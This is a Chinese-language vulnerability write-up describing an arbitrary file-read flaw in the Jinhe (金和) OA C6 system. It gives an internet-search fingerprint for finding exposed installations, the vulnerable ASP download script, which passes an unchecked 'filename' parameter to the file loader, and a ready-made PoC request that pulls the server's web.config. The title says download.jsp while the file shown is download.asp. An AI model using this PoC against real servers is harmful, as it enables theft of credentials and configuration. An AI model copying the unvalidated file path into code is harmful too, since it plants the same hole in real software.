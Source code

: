 # 金和OA C6 download.jsp 任意文件读取漏洞

## 漏洞描述

金和OA C6 download.jsp文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感信息

## 漏洞影响

<a-checkbox checked>金和OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="金和网络-金和OA"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210609083645344.png)



漏洞文件为 download.asp

```java
<%       
	Response.Buffer     =     true       
	Response.Clear       
	      
	dim     url       
	Dim     fso,fl,flsize       
	dim     Dname       
	Dim     objStream,ContentType,flName,isre,url1       
	'*********************************************调用时传入的下载文件名       
	Dname=trim(request("filename"))       
	'******************************************************************       
	If     Dname<>""     Then       
	'******************************下载文件存放的服务端目录       
							url=server.MapPath(Dname)       
							'url=server.MapPath("./")&"\Jhsoft.Web.module\testbill\dj"&Dname     '这边做了一下改动By   Fanshui   
	'***************************************************       
	End     If       
	'Response.write   url   
	'response.end   

	Set     fso=Server.CreateObject("Scripting.FileSystemObject")       
	Set     fl=fso.getfile(url)       
	flsize=fl.size       
	flName=fl.name       
	Set     fl=Nothing       
	Set     fso=Nothing     
	'Response.write flName
	'Response.write flsize
%>    


<%       
    Set		objStream     =     Server.CreateObject("ADODB.Stream")
	'objStream.Mode 　  = 　  3 　
	objStream.Type     =     1
    objStream.Open        
    objStream.LoadFromFile     url       


    Select     Case     lcase(Right(flName,     4))       
        Case     ".asf"       
                                ContentType     =     "video/x-ms-asf"       
        Case     ".avi"       
                                ContentType     =     "video/avi"       
        Case     ".doc"       
                                ContentType     =     "application/msword"       
        Case     ".zip"       
                                ContentType     =     "application/zip"       
        Case     ".xls"       
                                ContentType     =     "application/vnd.ms-excel"       
        Case     ".gif"       
                                ContentType     =     "image/gif"       
        Case     ".jpg",     "jpeg"       
                                ContentType     =     "image/jpeg"       
        Case     ".wav"       
                                ContentType     =     "audio/wav"       
        Case     ".mp3"       
                                ContentType     =     "audio/mpeg3"       
        Case     ".mpg",     "mpeg"       
                                ContentType     =     "video/mpeg"       
        Case     ".rtf"       
                                ContentType     =     "application/rtf"       
        Case     ".htm",     "html"       
                                ContentType     =     "text/html"       
        Case     ".txt"       
                                ContentType     =     "text/plain"       
        Case     Else       
                                ContentType     =     "application/octet-stream"       
    End     Select       



	Response.AddHeader     "Content-Disposition",     "attachment;     filename="     &     flName       
    Response.AddHeader     "Content-Length",     flsize       

    Response.Charset     =     "UTF-8"       
    Response.ContentType     =     ContentType   

	Response.BinaryWrite     objStream.Read       
    Response.Flush       
    response.Clear()       
    objStream.Close       
    Set     objStream     =     Nothing       

%>
```



请求的POC为

```plain
/C6/Jhsoft.Web.module/testbill/dj/download.asp?filename=/c6/web.config
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210609085943874.png)



读取 web.config

```plain
/C6/Jhsoft.Web.module/testbill/dj/download.asp?filename=/c6/web.config
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210609091013697.png)